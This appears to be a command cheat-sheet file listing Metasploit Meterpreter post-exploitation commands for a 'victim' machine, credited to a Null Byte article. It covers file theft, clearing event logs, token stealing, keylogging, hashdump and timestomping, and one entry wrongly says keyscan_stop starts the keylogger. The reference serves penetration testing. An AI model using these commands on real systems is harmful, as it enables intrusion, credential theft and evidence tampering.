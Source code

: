 # Kali Linux

> Source: http://null-byte.wonderhowto.com/how-to/hack-like-pro-ultimate-command-cheat-sheet-for-metasploits-meterpreter-0149146/

> Aliases: kali, kali-linux-commandline

$ Basic Commands
    `?                             {{help menu}} 
    `background                    {{moves the current session to the background}} 
    `bgkill                        {{kills a background meterpreter script}} 
    `bglist                        {{provides a list of all running background scripts}} 
    `bgrun                         {{runs a script as a background thread}} 
    `channel                       {{displays active channels}} 
    `close                         {{closes a channel}} 
    `exit                          {{terminates a meterpreter session help menu}} 
    `help                          {{help menu}} 
    `interact                      {{interacts with a channel}} 
    `irb                           {{go into ruby scripting mode}} 
    `migrate                       {{moves the active process to designated PID}} 
    `quit                          {{terminates the meterpreter session}} 
    `read                          {{reads the data from a channel}} 
    `run                           {{executes the meterpreter script designated after it}} 
    `use                           {{loads a meterpreter script}} 
    `write                         {{writes data to a channel}} 

$ File System Commands
    `cat                           {{ read and output to stdout the contents of a file}} 
    `cd                            {{change directory on the victim}} 
    `del                           {{delete a file on the victim}} 
    `download                      {{download a file from the victim system to the attacker system}} 
    `edit                          {{ edit a file with vim}} 
    `getlwd                        {{print the local directory}} 
    `getwd                         {{print working directory}} 
    `lcd                           {{change local directory}} 
    `lpwd                          {{print local directory}} 
    `ls                            {{list files in current directory}} 
    `mkdir                         {{ make a directory on the victim system}} 
    `pwd                           {{print working directory}} 
    `rm                            {{delete a file}} 
    `rmdir                         {{remove directory on the victim system}} 
    `upload                        {{upload a file from the attacker system to the victim}} 

$ Networking Commands
    `ipconfig                      {{displays network interfaces with key information including IP address, etc}} 
    `portfwd                       {{forwards a port on the victim system to a remote service}} 
    `route                         {{view or modify the victim routing table}} 

$ System Commands
    `clearav                       {{clears the event logs on the victim's computer}} 
    `drop_token                    {{drops a stolen token}} 
    `execute                       {{executes a command}} 
    `getpid                        {{gets the current process ID (PID)}} 
    `getprivs                      {{gets as many privileges as possible}} 
    `getuid                        {{get the user that the server is running as}} 
    `kill                          {{terminate the process designated by the PID}} 
    `ps                            {{list running processes}} 
    `reboot                        {{reboots the victim computer}} 
    `reg                           {{interact with the victim's registry}} 
    `rev2self                      {{calls RevertToSelf() on the victim machine}} 
    `shutdown                      {{shuts down the victim's computer}} 
    `steal_token                   {{attempts to steal the token of a specified (PID) process}} 
    `sysinfo                       {{gets the details about the victim computer such as OS and name}} 

$ User Interface Commands
    `enumdesktops                  {{lists all accessible desktops}} 
    `getdesktop                    {{get the current meterpreter desktop}} 
    `idletime                      {{checks to see how long since the victim system has been idle}} 
    `keyscan_dump                  {{dumps the contents of the software keylogger}} 
    `keyscan_stop                  {{starts the software keylogger when associated with a process such as Word or browser}} 
    `screenshot                    {{grabs a screenshot of the meterpreter desktop}} 
    `set_desktop                   {{changes the meterpreter desktop}} 
    `uictl                         {{enables control of some of the user interface components}} 

$ Privilege Escalation Commands
    `getsystem                     {{uses 15 built-in methods to gain sysadmin privileges}} 

$ Password Dump Commands
    `hashdump                      {{grabs the hashes in the password (SAM) file}} 

$ Timestomp Commands
    `timestomp                     {{manipulates the modify, access, and create attributes of a file}} 

